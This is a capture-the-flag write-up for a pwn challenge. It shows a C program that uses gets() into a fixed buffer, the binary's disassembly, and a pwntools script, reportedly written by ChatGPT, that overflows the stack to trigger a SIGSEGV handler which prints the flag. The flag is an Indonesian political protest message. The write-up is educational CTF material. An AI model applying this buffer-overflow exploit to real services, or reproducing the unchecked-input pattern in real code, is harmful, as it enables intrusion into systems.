

# is pwn really that hard?
### Description: gacoan nya takeaway mas, nambah udang keju satu

We are given a netcat:
```
nc minictf.ucs.or.id 2002
```

And a zip called ```dist.zip```.

Inside the zip is a binary ```hard``` and C source ```hard.c```:
```
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}

void signal_handler()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[1000];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    signal(SIGSEGV, signal_handler);
    char buffer[0x800];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```
Let's analyze the binary using:
```
objdump -d hard
```
```
hard:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:	48 83 ec 08          	sub    $0x8,%rsp
  401004:	48 8b 05 d5 2f 00 00 	mov    0x2fd5(%rip),%rax        # 403fe0 <__gmon_start__@Base>
  40100b:	48 85 c0             	test   %rax,%rax
  40100e:	74 02                	je     401012 <_init+0x12>
  401010:	ff d0                	call   *%rax
  401012:	48 83 c4 08          	add    $0x8,%rsp
  401016:	c3                   	ret

Disassembly of section .plt:

0000000000401020 <fclose@plt-0x10>:
  401020:	ff 35 ca 2f 00 00    	push   0x2fca(%rip)        # 403ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  401026:	ff 25 cc 2f 00 00    	jmp    *0x2fcc(%rip)        # 403ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40102c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000401030 <fclose@plt>:
  401030:	ff 25 ca 2f 00 00    	jmp    *0x2fca(%rip)        # 404000 <fclose@GLIBC_2.2.5>
  401036:	68 00 00 00 00       	push   $0x0
  40103b:	e9 e0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401040 <printf@plt>:
  401040:	ff 25 c2 2f 00 00    	jmp    *0x2fc2(%rip)        # 404008 <printf@GLIBC_2.2.5>
  401046:	68 01 00 00 00       	push   $0x1
  40104b:	e9 d0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401050 <fgets@plt>:
  401050:	ff 25 ba 2f 00 00    	jmp    *0x2fba(%rip)        # 404010 <fgets@GLIBC_2.2.5>
  401056:	68 02 00 00 00       	push   $0x2
  40105b:	e9 c0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401060 <__sysv_signal@plt>:
  401060:	ff 25 b2 2f 00 00    	jmp    *0x2fb2(%rip)        # 404018 <__sysv_signal@GLIBC_2.2.5>
  401066:	68 03 00 00 00       	push   $0x3
  40106b:	e9 b0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401070 <gets@plt>:
  401070:	ff 25 aa 2f 00 00    	jmp    *0x2faa(%rip)        # 404020 <gets@GLIBC_2.2.5>
  401076:	68 04 00 00 00       	push   $0x4
  40107b:	e9 a0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401080 <setvbuf@plt>:
  401080:	ff 25 a2 2f 00 00    	jmp    *0x2fa2(%rip)        # 404028 <setvbuf@GLIBC_2.2.5>
  401086:	68 05 00 00 00       	push   $0x5
  40108b:	e9 90 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401090 <fopen@plt>:
  401090:	ff 25 9a 2f 00 00    	jmp    *0x2f9a(%rip)        # 404030 <fopen@GLIBC_2.2.5>
  401096:	68 06 00 00 00       	push   $0x6
  40109b:	e9 80 ff ff ff       	jmp    401020 <_init+0x20>

Disassembly of section .text:

00000000004010a0 <_start>:
  4010a0:	31 ed                	xor    %ebp,%ebp
  4010a2:	49 89 d1             	mov    %rdx,%r9
  4010a5:	5e                   	pop    %rsi
  4010a6:	48 89 e2             	mov    %rsp,%rdx
  4010a9:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
  4010ad:	50                   	push   %rax
  4010ae:	54                   	push   %rsp
  4010af:	45 31 c0             	xor    %r8d,%r8d
  4010b2:	31 c9                	xor    %ecx,%ecx
  4010b4:	48 c7 c7 45 12 40 00 	mov    $0x401245,%rdi
  4010bb:	ff 15 17 2f 00 00    	call   *0x2f17(%rip)        # 403fd8 <__libc_start_main@GLIBC_2.34>
  4010c1:	f4                   	hlt
  4010c2:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
  4010c9:	00 00 00 
  4010cc:	0f 1f 40 00          	nopl   0x0(%rax)

00000000004010d0 <_dl_relocate_static_pie>:
  4010d0:	c3                   	ret
  4010d1:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
  4010d8:	00 00 00 
  4010db:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

00000000004010e0 <deregister_tm_clones>:
  4010e0:	b8 48 40 40 00       	mov    $0x404048,%eax
  4010e5:	48 3d 48 40 40 00    	cmp    $0x404048,%rax
  4010eb:	74 13                	je     401100 <deregister_tm_clones+0x20>
  4010ed:	b8 00 00 00 00       	mov    $0x0,%eax
  4010f2:	48 85 c0             	test   %rax,%rax
  4010f5:	74 09                	je     401100 <deregister_tm_clones+0x20>
  4010f7:	bf 48 40 40 00       	mov    $0x404048,%edi
  4010fc:	ff e0                	jmp    *%rax
  4010fe:	66 90                	xchg   %ax,%ax
  401100:	c3                   	ret
  401101:	66 66 2e 0f 1f 84 00 	data16 cs nopw 0x0(%rax,%rax,1)
  401108:	00 00 00 00 
  40110c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000401110 <register_tm_clones>:
  401110:	be 48 40 40 00       	mov    $0x404048,%esi
  401115:	48 81 ee 48 40 40 00 	sub    $0x404048,%rsi
  40111c:	48 89 f0             	mov    %rsi,%rax
  40111f:	48 c1 ee 3f          	shr    $0x3f,%rsi
  401123:	48 c1 f8 03          	sar    $0x3,%rax
  401127:	48 01 c6             	add    %rax,%rsi
  40112a:	48 d1 fe             	sar    $1,%rsi
  40112d:	74 11                	je     401140 <register_tm_clones+0x30>
  40112f:	b8 00 00 00 00       	mov    $0x0,%eax
  401134:	48 85 c0             	test   %rax,%rax
  401137:	74 07                	je     401140 <register_tm_clones+0x30>
  401139:	bf 48 40 40 00       	mov    $0x404048,%edi
  40113e:	ff e0                	jmp    *%rax
  401140:	c3                   	ret
  401141:	66 66 2e 0f 1f 84 00 	data16 cs nopw 0x0(%rax,%rax,1)
  401148:	00 00 00 00 
  40114c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000401150 <__do_global_dtors_aux>:
  401150:	f3 0f 1e fa          	endbr64
  401154:	80 3d 2d 2f 00 00 00 	cmpb   $0x0,0x2f2d(%rip)        # 404088 <completed.0>
  40115b:	75 13                	jne    401170 <__do_global_dtors_aux+0x20>
  40115d:	55                   	push   %rbp
  40115e:	48 89 e5             	mov    %rsp,%rbp
  401161:	e8 7a ff ff ff       	call   4010e0 <deregister_tm_clones>
  401166:	c6 05 1b 2f 00 00 01 	movb   $0x1,0x2f1b(%rip)        # 404088 <completed.0>
  40116d:	5d                   	pop    %rbp
  40116e:	c3                   	ret
  40116f:	90                   	nop
  401170:	c3                   	ret
  401171:	66 66 2e 0f 1f 84 00 	data16 cs nopw 0x0(%rax,%rax,1)
  401178:	00 00 00 00 
  40117c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000401180 <frame_dummy>:
  401180:	f3 0f 1e fa          	endbr64
  401184:	eb 8a                	jmp    401110 <register_tm_clones>

0000000000401186 <init>:
  401186:	55                   	push   %rbp
  401187:	48 89 e5             	mov    %rsp,%rbp
  40118a:	48 8b 05 df 2e 00 00 	mov    0x2edf(%rip),%rax        # 404070 <stdin@GLIBC_2.2.5>
  401191:	b9 00 00 00 00       	mov    $0x0,%ecx
  401196:	ba 02 00 00 00       	mov    $0x2,%edx
  40119b:	be 00 00 00 00       	mov    $0x0,%esi
  4011a0:	48 89 c7             	mov    %rax,%rdi
  4011a3:	e8 d8 fe ff ff       	call   401080 <setvbuf@plt>
  4011a8:	48 8b 05 b1 2e 00 00 	mov    0x2eb1(%rip),%rax        # 404060 <stdout@GLIBC_2.2.5>
  4011af:	b9 00 00 00 00       	mov    $0x0,%ecx
  4011b4:	ba 02 00 00 00       	mov    $0x2,%edx
  4011b9:	be 00 00 00 00       	mov    $0x0,%esi
  4011be:	48 89 c7             	mov    %rax,%rdi
  4011c1:	e8 ba fe ff ff       	call   401080 <setvbuf@plt>
  4011c6:	48 8b 05 b3 2e 00 00 	mov    0x2eb3(%rip),%rax        # 404080 <stderr@GLIBC_2.2.5>
  4011cd:	b9 00 00 00 00       	mov    $0x0,%ecx
  4011d2:	ba 02 00 00 00       	mov    $0x2,%edx
  4011d7:	be 00 00 00 00       	mov    $0x0,%esi
  4011dc:	48 89 c7             	mov    %rax,%rdi
  4011df:	e8 9c fe ff ff       	call   401080 <setvbuf@plt>
  4011e4:	90                   	nop
  4011e5:	5d                   	pop    %rbp
  4011e6:	c3                   	ret

00000000004011e7 <signal_handler>:
  4011e7:	55                   	push   %rbp
  4011e8:	48 89 e5             	mov    %rsp,%rbp
  4011eb:	48 81 ec f0 03 00 00 	sub    $0x3f0,%rsp
  4011f2:	be 04 20 40 00       	mov    $0x402004,%esi
  4011f7:	bf 06 20 40 00       	mov    $0x402006,%edi
  4011fc:	e8 8f fe ff ff       	call   401090 <fopen@plt>
  401201:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401205:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
  401209:	48 8d 85 10 fc ff ff 	lea    -0x3f0(%rbp),%rax
  401210:	be e8 03 00 00       	mov    $0x3e8,%esi
  401215:	48 89 c7             	mov    %rax,%rdi
  401218:	e8 33 fe ff ff       	call   401050 <fgets@plt>
  40121d:	48 8d 85 10 fc ff ff 	lea    -0x3f0(%rbp),%rax
  401224:	48 89 c6             	mov    %rax,%rsi
  401227:	bf 10 20 40 00       	mov    $0x402010,%edi
  40122c:	b8 00 00 00 00       	mov    $0x0,%eax
  401231:	e8 0a fe ff ff       	call   401040 <printf@plt>
  401236:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  40123a:	48 89 c7             	mov    %rax,%rdi
  40123d:	e8 ee fd ff ff       	call   401030 <fclose@plt>
  401242:	90                   	nop
  401243:	c9                   	leave
  401244:	c3                   	ret

0000000000401245 <main>:
  401245:	55                   	push   %rbp
  401246:	48 89 e5             	mov    %rsp,%rbp
  401249:	48 81 ec 00 08 00 00 	sub    $0x800,%rsp
  401250:	b8 00 00 00 00       	mov    $0x0,%eax
  401255:	e8 2c ff ff ff       	call   401186 <init>
  40125a:	be e7 11 40 00       	mov    $0x4011e7,%esi
  40125f:	bf 0b 00 00 00       	mov    $0xb,%edi
  401264:	e8 f7 fd ff ff       	call   401060 <__sysv_signal@plt>
  401269:	bf 1a 20 40 00       	mov    $0x40201a,%edi
  40126e:	b8 00 00 00 00       	mov    $0x0,%eax
  401273:	e8 c8 fd ff ff       	call   401040 <printf@plt>
  401278:	48 8d 85 00 f8 ff ff 	lea    -0x800(%rbp),%rax
  40127f:	48 89 c7             	mov    %rax,%rdi
  401282:	e8 e9 fd ff ff       	call   401070 <gets@plt>
  401287:	b8 00 00 00 00       	mov    $0x0,%eax
  40128c:	c9                   	leave
  40128d:	c3                   	ret

Disassembly of section .fini:

0000000000401290 <_fini>:
  401290:	48 83 ec 08          	sub    $0x8,%rsp
  401294:	48 83 c4 08          	add    $0x8,%rsp
  401298:	c3                   	ret
  ```

Based on that dissasembly:

Buffer allocation: ```sub $0x800,%rsp``` (2048 bytes for the buffer)

Signal setup: ```mov $0x4011e7,%esi; mov $0xb,%edi; call __sysv_signal@plt```

Registers SIGSEGV (signal 11) to call ```signal_handler``` at ```0x4011e7```.

What we need to do is to overflow the buffer, overwrite the 8 bytes saved rbp, overwrite the return address with ```0xdeadbeef``` which is a magic number address that is usually used to mark a memory that has been freed/corrupted.

And then, when main() returns, it will try to jump to said address which will trigger SIGSEGV that calls ```signal_handler```, afterwards, the flag is printed.

Using this information we have gathered, i told ChatGPT to make the exploit by explaining the logic and forwarding the objdump:

```
from pwn import *

# Target information
host = 'minictf.ucs.or.id'
port = 2002

# Analysis from disassembly:
# - Buffer size: 0x800 (2048 bytes) at -0x800(%rbp)
# - Signal handler address: 0x4011e7 
# - SIGSEGV (signal 11) is registered to call signal_handler
# - Stack frame: rbp is at offset 0x800 from buffer start
# - Return address is 8 bytes after saved rbp

# Strategy: Overflow buffer to overwrite return address with invalid address
# This will cause SIGSEGV when main() tries to return, triggering signal_handler

buffer_size = 0x800  # 2048 bytes
saved_rbp_offset = buffer_size  # rbp is right after buffer
return_addr_offset = saved_rbp_offset + 8  # return address is 8 bytes after rbp

print(f"[*] Buffer size: {buffer_size} bytes")
print(f"[*] Saved RBP offset: {saved_rbp_offset}")
print(f"[*] Return address offset: {return_addr_offset}")

# Create payload to cause segfault
# Fill buffer + saved rbp + overwrite return address with invalid address
payload = b'A' * return_addr_offset  # Fill up to return address
payload += p64(0xdeadbeef)  # Invalid address to cause SIGSEGV

print(f"[*] Payload length: {len(payload)} bytes")
print(f"[*] Connecting to {host}:{port}")

try:
    p = remote(host, port)
    print("[+] Connected successfully!")
    
    # Receive the prompt
    prompt = p.recvuntil(b"input something here: ")
    print(f"[*] Received: {prompt.decode().strip()}")
    
    # Send the payload
    print("[*] Sending payload to trigger SIGSEGV...")
    p.sendline(payload)
    
    # Receive and print the flag
    print("[*] Waiting for signal handler response...")
    try:
        response = p.recvall(timeout=5)
        if response:
            print(f"[+] Response: {response.decode()}")
        else:
            print("[-] No response received")
    except:
        print("[-] Error receiving response")
    
    p.close()
    print("[*] Connection closed")

except Exception as e:
    print(f"[-] Error: {e}")

# Alternative payload with different invalid addresses if first doesn't work
print(f"\n[*] Alternative payloads if needed:")
alt_payloads = [
    b'A' * return_addr_offset + p64(0x4141414141414141),  # All A's
    b'A' * return_addr_offset + p64(0x0000000000000000),  # NULL pointer
    b'A' * return_addr_offset + p64(0xffffffffffffffff),  # Max address
]

for i, alt_payload in enumerate(alt_payloads):
    print(f"Alt {i+1}: Length {len(alt_payload)} bytes - ends with {alt_payload[-8:].hex()}")
```

Running it gives the flag:


Flag: ```UCS{Catet ya: Penyerbuan UNPAS & UNISBA malam ini oleh aparat Polri & TNI hanya beberapa jam setelah Presiden mengumumkan kenaikan pangkat untuk anggota Kepolisian akibat demo beberapa hari terakhir, malah makin menjadi, semua aparat sama saja, masih mau menyudutkan demonstran?}```
